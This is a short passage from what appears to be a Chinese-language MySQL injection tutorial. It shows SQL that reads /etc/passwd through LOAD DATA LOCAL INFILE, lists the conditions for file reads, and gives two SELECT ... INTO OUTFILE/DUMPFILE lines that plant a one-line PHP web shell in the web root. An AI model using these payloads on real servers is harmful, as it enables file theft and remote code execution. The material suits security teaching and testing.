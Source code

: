 ![image.png](./MySQL注入基础.assets/2023_05_19_10_41_20_cYsFqSwo.png)
```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; -- 读取客户端上的文件
```
限制：

- 前两种需要secure-file-priv无值或为有利目录。
- 都需要知道要读取的文件所在的绝对路径。
- 要读取的文件大小必须小于max_allowed_packet所设置的值
### 写文件
常规写文件的操作有如下字句：
```sql
select 1,"<?php @assert($_POST['t']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php @assert($_POST['t']);?>" into dumpfile '/var/www/html/1.php';
```
那么`into outfile`和`into dumpfile`有什么区别呢？
